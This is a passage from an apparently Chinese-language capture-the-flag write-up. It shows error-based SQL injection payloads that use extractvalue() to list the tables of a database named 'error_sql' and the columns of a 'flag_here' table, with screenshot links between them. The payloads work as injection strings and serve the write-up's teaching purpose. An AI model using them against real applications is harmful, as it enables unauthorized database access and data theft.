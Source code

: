 由此已经得到了一个数据库：`error_sql`，接下来爆出库内的表名：

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='error_sql'))) %23
```

![image-20220126141948730](../CTF-images/image-20220126141948730.png)

那么已经知道库内有两个表：`data`,`flag_here`，接着爆`flag_here`:

```php
tt=1'and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag_here'))) %23
```

![image-20220126142117213](../CTF-images/image-20220126142117213.png)
